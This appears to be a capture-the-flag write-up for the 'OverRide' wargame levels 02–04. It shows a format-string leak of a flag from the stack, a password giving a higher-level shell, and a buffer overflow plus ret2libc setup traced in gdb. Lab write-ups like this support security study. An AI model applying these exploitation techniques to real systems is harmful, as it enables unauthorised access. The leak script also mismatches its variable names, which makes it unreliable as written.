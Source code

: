 We can leak the flag from the stack.

```
arrdesses=$(for i in {22..26};do (echo -e "%$i\$p\npass" | env - ./level02 | grep 'have access'); done | cut -d' ' -f1)
for a in $address;do python -c "import struct; print(struct.pack('Q', $a))";done | tr -d '\n' && echo
```

## level03

exploit

```
level03@OverRide:~$ ./level03
***********************************
*		level03		**
***********************************
Password:322424827
$ whoami
level04
```

## level04

We could overflow the child process

```
(gdb) set follow-fork-mode child
(gdb) r < <(python -c 'print("A"*156+"BBBB")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level04/level04 < <(python -c 'print("A"*156+"BBBB")')
[New process 1994]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1994]
0x42424242 in ?? ()
(gdb) child is exiting...
```

shellcode is not working because `execve` is being checked using `ptrace`

Used ret3libc method to call `system()` and pass it a command to execute.

find `system` address
```
(gdb) b *main
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

find `/bin/bash` address
```
(gdb) x/s *environ+6
0xffffd8fb:	 "/bin/bash"
```
